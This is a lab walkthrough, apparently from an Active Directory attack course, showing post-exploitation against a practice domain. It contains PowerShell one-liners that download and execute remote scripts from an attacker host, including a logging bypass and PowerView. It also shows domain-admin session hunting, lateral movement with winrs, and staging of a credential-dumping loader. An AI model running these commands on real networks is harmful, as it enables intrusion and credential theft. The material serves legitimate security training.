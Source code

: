 Starting to download the following file/programs, and execute Find-DomainUserLocation

```powershell
iex (iwr http://172.16.100.67/sbloggingbypass.txt -UseBasicParsing)
```

```powershell
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.67/PowerView.ps1'))
Find-DomainUserLocation
```

```powershell
UserDomain      : DCORP-CI
UserName        : Administrator
ComputerName    : dcorp-ci.dollarcorp.moneycorp.local
IPAddress       : 172.16.3.11
SessionFrom     :
SessionFromName :
LocalAdmin      :

UserDomain      : dcorp
UserName        : svcadmin
ComputerName    : dcorp-mgmt.dollarcorp.moneycorp.local
IPAddress       : 172.16.4.44
SessionFrom     :
SessionFromName :
LocalAdmin      :
```

There is a domain admin session on dcorp-mgmt server, we can abuse this using winrs:

```powershell
winrs -r:dcorp-mgmt cmd /c "set computername && set username"
```

```powershell
COMPUTERNAME=DCORP-MGMT
USERNAME=ciadmin
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Now, the idea is to extract credentials from it, we can do it using SafetyKatz.exe, to do that, we need to copy Loader.exe on dcorp-mgmt.

* Download Loader.exe on dcorp-ci
* Copy it from there to dcorp-mgmt.

Run the following command on the reverse shell:

```powershell
iwr http://172.16.100.67/Loader.exe -OutFile C:\Users\Public\Loader.exe
```
